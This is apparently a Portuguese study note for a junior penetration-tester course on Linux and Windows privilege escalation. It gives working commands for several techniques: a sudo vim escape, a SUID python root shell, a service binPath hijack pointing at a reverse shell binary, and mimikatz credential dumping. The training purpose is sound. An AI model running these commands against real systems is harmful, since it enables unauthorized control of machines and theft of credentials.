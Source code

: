 # Privilege Escalation - Jr Penetration Tester

A Privilege Escalation é uma etapa essencial em um teste de penetração. Após obter acesso inicial a uma máquina (normalmente com permissões limitadas), o próximo passo é tentar elevar privilégios — buscando o nível de root (Linux) ou SYSTEM/Administrador (Windows). Isso dá controle total da máquina, possibilitando movimentação lateral, persistência e domínio completo.

No módulo do Jr Penetration Tester, temos 3 partes principais: What the Shell?, Linux Privilege Escalation e Windows Privilege Escalation.  
Aqui está o conteúdo detalhado 100% dentro do mesmo markdown.

---

## 🔹 What the Shell?
Quando obtemos acesso inicial, geralmente conseguimos uma shell limitada. Antes de escalar privilégios, precisamos estabilizar e identificar que tipo de shell estamos rodando.

### Tipos de Shell
- Reverse Shell → alvo conecta de volta para o atacante.  
- Bind Shell → alvo abre uma porta para conexão.  
- Web Shell → execução de comandos via interface web.  

### Estabilização da Shell (Linux)
Muitas shells iniciais não têm suporte a comandos interativos. Para “upgradear”:

python3 -c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  
CTRL+Z  
stty raw -echo; fg  
reset  

Isso ativa histórico, autocompletar e melhora a experiência.

---

## 🐧 Linux Privilege Escalation

### 1. Enumeração
Primeiro passo: coletar informações.

id                → Identifica o usuário atual  
uname -a          → Versão do kernel  
sudo -l           → Lista permissões sudo  
lsblk             → Lista partições/discos  
ps aux            → Processos em execução  

Ferramentas úteis:  
- LinPEAS → enumeração automatizada.  
- Linux Exploit Suggester → sugere exploits com base no kernel.  
- pspy → observa processos em execução.

### 2. Vetores comuns de escalada
- Permissões sudo mal configuradas (usuário pode rodar binários como root).  
- Arquivos com SUID bit set (executam com privilégios do dono).  
- Serviços mal configurados.  
- Credenciais expostas em arquivos de configuração.  
- Exploração de kernels antigos.  

### 3. Exemplo de Escalada via Sudo
Se o usuário puder rodar `vim` como root:

sudo vim -c ':!/bin/sh'  

Agora temos shell root.

### 4. Exemplo via SUID
Buscar binários com SUID:

find / -perm -4000 2>/dev/null  

Se encontrar `/usr/bin/python3` com SUID:

/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'  

---

## 🪟 Windows Privilege Escalation

### 1. Enumeração
Primeiro passo em Windows é mapear ambiente:

whoami /priv          → mostra privilégios  
systeminfo            → versão do Windows  
net user              → usuários locais  
tasklist              → processos em execução  
ipconfig /all         → rede  

Ferramentas recomendadas:  
- winPEAS → coleta automática de informações.  
- Seatbelt → enumeração avançada.  
- PowerUp → identifica vulnerabilidades de escalada.  

### 2. Vetores comuns de escalada
- Usuário com permissões administrativas.  
- Serviços mal configurados (binários modificáveis).  
- Senhas armazenadas em arquivos, registro ou GPO.  
- DLL Hijacking (carregamento de DLLs maliciosas).  
- Kernel exploits (quando a versão é antiga).  

### 3. Exemplo: Abuso de Serviços
Se o usuário pode modificar um serviço:

sc qc NomeDoServico       → verifica configuração  
sc config NomeDoServico binPath= "C:\Temp\reverse.exe"  
sc start NomeDoServico  

Isso executa nosso binário como SYSTEM.

### 4. Exemplo: Abuso de Senhas em Memória
Com acesso a `mimikatz`:

privilege::debug  
sekurlsa::logonpasswords  

Obtém credenciais em texto claro de sessões ativas.

---

## ✅ Conclusão
A escalada de privilégios é um passo crucial: ela transforma um acesso inicial limitado em controle total da máquina. Tanto no Linux quanto no Windows, o processo começa com **enumeração cuidadosa** e segue para exploração de **vetores comuns**.  
Dominar essas técnicas é essencial para qualquer pentester que deseja avançar além do acesso inicial.
